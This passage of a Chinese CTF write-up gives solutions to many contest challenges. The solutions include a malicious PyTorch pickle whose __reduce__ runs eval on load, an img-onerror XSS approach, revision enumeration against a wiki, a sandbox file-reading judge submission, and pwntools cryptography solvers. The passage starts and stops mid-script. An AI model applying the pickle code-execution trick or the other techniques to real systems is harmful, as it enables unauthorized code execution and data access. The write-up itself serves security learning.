            gen_imgs.append(png_b64)
        print(gen_imgs)

    def __reduce__(self):
        return eval, (
        "__import__('json').dump({'gen_imgs_b64' : ##########这里填入payload.do_payload()函数print出来的东西，大约有100KB，太长了，不放在writeup里了##########}, open('/tmp/result.json', 'w'))"
        ,)


payload = Payload()
# payload.do_payload()
torch.save(payload, "payload.pt")
```



```
flag{Torch.Load.Is.Dangerous-f540cf3070}
```

## Flag自动机

> 周日题目做到一半发现平台关了然后交不了flag？？？？？

首先用ida打开程序，发现`.text:00401840`的位置会开始解密输出一个`flag_machine.txt`，所以用`x64dbg`运行程序，打断点，将`0x0040135A`处的汇编修改为`jmp 0x00401840`，然后继续运行程序即可



```
flag{Y0u_rea1ly_kn0w_Win32API_89ab91ac0c}
```

## 猜数字

这题的java代码是很完善的。首先：

```java
var guess = Double.parseDouble(event.asCharacters().getData());
```

这行代码外面套了一层`try`、`catch`，所以没有XXE漏洞。其次：

```java
if (result.isPresent()) throw new XMLStreamException();
```

所以不存在发这样子的一个请求的可能性：

```xml
<state><guess>0.001</guess><guess>0.002</guess>......<guess>1.000</guess></state>
```

最后也不能暴力破解，暴力脚本如下

```python
import requests
import re


def guess(x):
    url = "http://202.38.93.111:18000/state"
    headers = {
        "authorization": "Bearer <my token>"
    }
    data = f"<state><guess>{'%.6f' % x}</guess></state>"
    rsp = requests.post(url, headers=headers, data=data, timeout=5)
    return rsp.status_code


def state():
    url = "http://202.38.93.111:18000/state"
    headers = {
        "authorization": "Bearer <my token>"
    }
    rsp = requests.get(url, headers=headers, timeout=5)
    return str(rsp.content)


def is_guessed(s):
    return re.search("</guess>", s) is None


def is_more(s):
    return re.search('more="false"', s) is None


if __name__ == "__main__":
    l, r = 0, 1
    content = state()
    while True:
        try:
            guess((l + r) / 2)
            content = state()
            if is_guessed(content):
                print((l + r) / 2)
                l, r = 0, 1
            elif is_more(content):
                r = (l + r) / 2
            else:
                l = (l + r) / 2
        except requests.exceptions.ConnectTimeout:
            print("timeout")
            continue
```

可以观察到暴力猜测一次需要5秒左右，那么一次性猜对大概需要700个小时，这时比赛已经结束了

观察题目标签，发现是`general`而不是`web`

所以观察这三行代码

```java
var guess = Double.parseDouble(event.asCharacters().getData());
var isLess = guess < this.number - 1e-6 / 2;
var isMore = guess > this.number + 1e-6 / 2;
var isPassed = !isLess && !isMore;
```

那么当`guess`为`NaN`的时候，就能使得`isPassed`为`true`了

所以直接发送请求：

```xml
<state><guess>NaN</guess></state>
```

可以得到flag

```
flag{gu3ss-n0t-a-numb3r-1nst3ad-34058c50350a6ca5}
```

## 企鹅拼盘

### 这么简单我闭眼都可以！

输入`1000`然后`execute all`可以直接得到flag



```
flag{easy_to_use_bindiff_351dfea5f2}
```

## 火眼金睛的小 E

### 有手就行

直接用ida打开肉眼比较即可



```
flag{easy_to_use_bindiff_351dfea5f2}
```

## Flag的痕迹（非预期解）

访问`http://202.38.93.111:15004/doku.php?at=20221021`，发现下方的`start.1665224470.txt.gz`

所以访问`http://202.38.93.111:15004/doku.php?rev=1665224470`，能够得到当前没有flag的页面

所以使用burpsuite的intruder向前爆破



得到上一个历史版本`http://202.38.93.111:15004/doku.php?rev=1665224461`

访问即可得到flag

```
flag{d1gandFInD_d0kuw1k1_unexpectEd_API}
```

## 微积分计算小练习

一开始直觉地以为这道题是SSRF，所以很长一段时间没有任何进展。后来发现简单的XSS就可以了

后端会过滤`script`标签，所以用`img`的`onerror`来xss就可以了，即

```html

```



```
flag{xS5_1OI_is_N0t_SOHARD_3bd80e3d9f}
```

## 安全的在线评测

### 无法AC的题目

直接读写文件即可

动态数据文件有权限问题，可以通过以下代码的TLE验证

```c
if (access(in_paths[1], R_OK) < 0) {
    while (1);
}
```

```c
#include <stdio.h>
#include <string.h>

int main() {
    char *in_paths[6] = {"./data/static.in",
                         "./data/dynamic0.in",
                         "./data/dynamic1.in",
                         "./data/dynamic2.in",
                         "./data/dynamic3.in",
                         "./data/dynamic4.in"};
    char *out_paths[6] = {"./data/static.out",
                          "./data/dynamic0.out",
                          "./data/dynamic1.out",
                          "./data/dynamic2.out",
                          "./data/dynamic3.out",
                          "./data/dynamic4.out"};
    char input[4096];
    scanf("%s\n", input);
    for (int i = 0; i < 6; i++) {
        FILE *input_file = fopen(in_paths[i], "r");
        char N[4096];
        fscanf(input_file, "%s\n", N);
        fclose(input_file);
        if (strcmp(N, input) == 0) {
            FILE *output_file = fopen(out_paths[i], "r");
            char P[2048], Q[2048];
            fscanf(output_file, "%s\n%s\n", P, Q);
            fclose(output_file);
            printf("%s\n%s\n", P, Q);
            break;
        }
    }
    return 0;
}
```

```
flag{the_compiler_is_my_eyes_4e602eafd3}
```

## 片上系统

用PulseView打开文件，设置SPI模式的SD卡解码。并按下图设置解码方式



就可以在第一个扇区末尾得到flag



```
flag{0K_you_goT_th3_b4sIc_1dE4_caRRy_0N}
```

## 置换魔群

> 1. 注意官方给的`permutation_group.py`源码里`permutation_element`的`__call__`是不可能调用成功的，一定会抛出`"Something wrong"`，这个`__call__`想要实现的功能实际上就是`__mul__`
> 2. 我在CTF里做算法题？！

### 置换群上的RSA



原理如上，脚本如下

```python
from permutation_group import permutation_element, permutation_group
from Crypto.Util.number import *
from pwn import *

context(os="linux", arch="amd64", log_level="debug")
p = remote('202.38.93.111', 10114)
p.recvuntil(b'Please input your token: ')
p.sendline(b'<my token>')
p.sendline(b'1')
for _ in range(15):
    p.recvuntil(b'my encrypted secret is here: ')
    raw = p.recvuntil(b']')
    c = eval(raw)
    c = permutation_element(len(c), c)
    ord_c = c.order()
    x = c ** inverse(65537, ord_c)
    p.recvuntil(b'your answer: ')
    p.sendline(str(x).encode("ascii"))
p.sendline(b'-1')
p.recvall()
```

```
flag{Pe5mRSA?__1s_s00oo_weak!!!_d6d475a039}
```

### 置换群上的DH



原理如上，脚本如下

```python
from typing import List
from permutation_group import permutation_element, permutation_group
from Crypto.Util.number import *
from pwn import *


def gcd(x: int, y: int) -> int:
    if x < y:
        x, y = y, x
    if y == 0:
        return x
    return gcd(y, x % y)


def lcm(x: int, y: int) -> int:
    return x * y // gcd(x, y)


def identity(n: int) -> List[int]:
    res = []
    for i in range(n):
        res.append(i + 1)
    return res


def get_e(n: int, item: tuple[int], g: permutation_element, y: permutation_element) -> int:
    gi = identity(n)
    for i in range(n):
        if g.permutation_list[i] in item:
            gi[i] = g.permutation_list[i]
    yi = identity(n)
    for i in range(n):
        if y.permutation_list[i] in item:
            yi[i] = y.permutation_list[i]
    t = permutation_element(n, identity(n))
    gi = permutation_element(len(gi), gi)
    yi = permutation_element(len(yi), yi)
    res = 0
    while True:
        if t == yi:
            assert gi ** res == yi
            return res
        res += 1
        t = t * gi


__ext_gcd_x = 0
__ext_gcd_y = 0


def ext_gcd(a: int, b: int) -> int:
    global __ext_gcd_x, __ext_gcd_y
    if b == 0:
        __ext_gcd_x, __ext_gcd_y = 1, 0
        return a
    d = ext_gcd(b, a % b)
    __ext_gcd_x, __ext_gcd_y = __ext_gcd_y, __ext_gcd_x - __ext_gcd_y * (a // b)
    return d


def get_x_y(a: int, b: int, c: int) -> tuple[int, int]:
    """
    ax + by = c
    """
    global __ext_gcd_x, __ext_gcd_y
    assert c % (gcd(a, b)) == 0
    d = ext_gcd(a, b)
    __ext_gcd_x *= c // d
    __ext_gcd_y *= c // d
    if __ext_gcd_x > 0:
        coef = __ext_gcd_x // (b // d)
        __ext_gcd_x -= coef * b // d
        __ext_gcd_y += coef * a // d
    if __ext_gcd_x <= 0:
        coef = (-__ext_gcd_x) // (b // d)
        __ext_gcd_x += (coef + 1) * b // d
        __ext_gcd_y -= (coef + 1) * a // d
    assert a * __ext_gcd_x + b * __ext_gcd_y == c
    return __ext_gcd_x, __ext_gcd_y


class Equation:
    """
    x mod m = r
    """

    def __init__(self, r: int, m: int) -> None:
        self.r, self.m = r, m

    def merge(self, eq) -> None:
        if eq.m == 1:
            return
        x, y = get_x_y(self.m, eq.m, eq.r - self.r)
        self.r = (self.m * x + self.r) % lcm(self.m, eq.m)
        self.m = lcm(self.m, eq.m)

    def __str__(self):
        return f"x ≡ {self.r} mod({self.m})"


context(os="linux", arch="amd64", log_level="debug")
p = remote('202.38.93.111', 10114)
p.recvuntil(b'Please input your token: ')
p.sendline(b'<my token>')
p.sendline(b'2')
for _ in range(15):
    p.recvuntil(b', g = ')
    raw = p.recvuntil(b']')
    g = eval(raw)
    p.recvuntil(b'my public key = ')
    raw = p.recvuntil(b']')
    y = eval(raw)
    n = len(g)
    g = permutation_element(n, g)
    g.standard_tuple.sort(key=lambda _x: len(_x))
    y = permutation_element(n, y)
    e = []
    equations = []
    for i in range(len(g.standard_tuple)):
        e.append(get_e(n, g.standard_tuple[i], g, y))
        equations.append(Equation(e[i], len(g.standard_tuple[i])))
    result = equations[0]
    for i in range(1, len(equations)):
        result.merge(equations[i])
    x = result.r
    assert x < g.order()
    assert g ** x == y
    p.recvuntil(b'your answer: ')
    p.sendline(str(x).encode("ascii"))
p.sendline(b'-1')
p.recvall()
```

```
flag{p3mutat1on_gr0up_1s_smooth_dlp_easy_bbea87ed09}
```

### 置换群上的超大离散对数



原理如上，脚本如下，反复运行直至能够拿到flag即可

```python
from typing import List, Tuple
from permutation_group import permutation_element
from pwn import *

prime = []
is_prime = [True] * 1024
prime_cnt = 0


def euler() -> None:
    global prime_cnt
    is_prime[1] = False
    for i in range(2, 1024):
        if is_prime[i]:
            prime.append(i)
            prime_cnt += 1
        for j in range(prime_cnt):
            if i * prime[j] >= 1024:
                break
            is_prime[i * prime[j]] = False
            if i % prime[j] == 0:
                break


def factorize(x: int) -> List[int]:
    res = []
    for i in range(prime_cnt):
        if prime[i] * prime[i] > x:
            break
        if x % prime[i] == 0:
            res.append(prime[i])
        while x % prime[i] == 0:
            x = x // prime[i]
    if x != 1:
        res.append(x)
    return res


def gcd(x: int, y: int) -> int:
    if x < y:
        x, y = y, x
    if y == 0:
        return x
    return gcd(y, x % y)


def lcm(x: int, y: int) -> int:
    return x * y // gcd(x, y)


def identity(n: int) -> List[int]:
    res = []
    for i in range(n):
        res.append(i + 1)
    return res


def get_e(n: int, item: tuple[int], g: permutation_element, y: permutation_element) -> int:
    gi = identity(n)
    for i in range(n):
        if g.permutation_list[i] in item:
            gi[i] = g.permutation_list[i]
    yi = identity(n)
    for i in range(n):
        if y.permutation_list[i] in item:
            yi[i] = y.permutation_list[i]
    t = permutation_element(n, identity(n))
    gi = permutation_element(len(gi), gi)
    yi = permutation_element(len(yi), yi)
    res = 0
    while True:
        if t == yi:
            assert gi ** res == yi
            return res
        res += 1
        t = t * gi


__ext_gcd_x = 0
__ext_gcd_y = 0


def ext_gcd(a: int, b: int) -> int:
    global __ext_gcd_x, __ext_gcd_y
    if b == 0:
        __ext_gcd_x, __ext_gcd_y = 1, 0
        return a
    d = ext_gcd(b, a % b)
    __ext_gcd_x, __ext_gcd_y = __ext_gcd_y, __ext_gcd_x - __ext_gcd_y * (a // b)
    return d


def get_x_y(a: int, b: int, c: int) -> tuple[int, int]:
    """
    ax + by = c
    """
    global __ext_gcd_x, __ext_gcd_y
    assert c % (gcd(a, b)) == 0
    d = ext_gcd(a, b)
    __ext_gcd_x *= c // d
    __ext_gcd_y *= c // d
    if __ext_gcd_x > 0:
        coef = __ext_gcd_x // (b // d)
        __ext_gcd_x -= coef * b // d
        __ext_gcd_y += coef * a // d
    if __ext_gcd_x <= 0:
        coef = (-__ext_gcd_x) // (b // d)
        __ext_gcd_x += (coef + 1) * b // d
        __ext_gcd_y -= (coef + 1) * a // d
    assert a * __ext_gcd_x + b * __ext_gcd_y == c
    return __ext_gcd_x, __ext_gcd_y


class Equation:
    """
    x mod m = r
    """

    def __init__(self, r: int, m: int) -> None:
        self.r, self.m = r, m

    def merge(self, eq) -> None:
        if eq.m == 1:
            return
        x, y = get_x_y(self.m, eq.m, eq.r - self.r)
        self.r = (self.m * x + self.r) % lcm(self.m, eq.m)
        self.m = lcm(self.m, eq.m)

    def __str__(self):
        return f"x ≡ {self.r} mod({self.m})"


decompose_n_p = 0
INF = 0xDEADBEEF


def decompose_n(n: int) -> Tuple[List[int], List[int]]:
    global decompose_n_p
    decompose_n_p = 0
    res = []
    res_sum = 0
    while True:
        assert res_sum == sum(t[0] ** t[1] for t in res)
        value = -INF
        delta = -1
        idx = -1
        if res_sum + prime[decompose_n_p] <= 2 * n:
            delta = prime[decompose_n_p] - 1
            value = prime[decompose_n_p] / delta
            idx = -2
        for i in range(len(res)):
            t = res[i]
            if value < t[0] / (t[0] ** (t[1] + 1) - t[0] ** t[1]) and \
                    res_sum + t[0] ** (t[1] + 1) - t[0] ** t[1] <= 2 * n:
                delta = t[0] ** (t[1] + 1) - t[0] ** t[1]
                value = t[0] / delta
                idx = i
        if idx == -2:
            res.append((prime[decompose_n_p], 1))
            res_sum += prime[decompose_n_p]
            decompose_n_p += 1
        elif delta != -1 and idx != -1:
            assert res_sum + delta <= 2 * n
            res[idx] = (res[idx][0], res[idx][1] + 1)
            res_sum += delta
        else:
            break
    ans = [t[0] ** t[1] for t in res]
    ans.sort()
    dp = [[0] * (n + 1) for _ in range(len(ans) + 1)]
    pre = [[(0, 0, 0)] * (n + 1) for _ in range(len(ans) + 1)]
    dp[0][0] = 0
    for i in range(1, len(ans) + 1):
        for j in range(n + 1):
            dp[i][j] = dp[i - 1][j]
        for j in range(ans[i - 1], n + 1):
            if dp[i - 1][j - ans[i - 1]] + ans[i - 1] > dp[i][j]:
                dp[i][j] = dp[i - 1][j - ans[i - 1]] + ans[i - 1]
                pre[i][j] = (i - 1, j - ans[i - 1], ans[i - 1])
    current = 0
    picked = []
    for j in range(n + 1):
        if dp[len(ans)][j] > current:
            picked = []
            current = dp[len(ans)][j]
            idx, pt = len(ans), j
            while idx >= 0 and pt >= 0:
                if pre[idx][pt] != (0, 0, 0):
                    picked.append(pre[idx][pt][2])
                    idx, pt = pre[idx][pt][0], pre[idx][pt][1]
                else:
                    idx -= 1
    assert current == sum(picked)
    tmp = ans.copy()
    for e in picked:
        tmp.remove(e)
    if sum(picked) != n:
        picked.append(n - sum(picked))
    if sum(tmp) != n:
        tmp.append(n - sum(tmp))
    return picked, tmp


def generate_my_pk(n: int) -> Tuple[List[int], List[int]]:
    decomposition = decompose_n(n)
    res1 = []
    idx = 0
    while len(res1) < n and idx < len(decomposition[0]):
        res1.append(len(res1) + decomposition[0][idx])
        for _ in range(1, decomposition[0][idx]):
            res1.append(len(res1))
        idx += 1
    res2 = []
    idx = 0
    while len(res2) < n and idx < len(decomposition[1]):
        res2.append(len(res2) + decomposition[1][idx])
        for _ in range(1, decomposition[1][idx]):
            res2.append(len(res2))
        idx += 1
    return res1, res2


if __name__ == "__main__":
    euler()
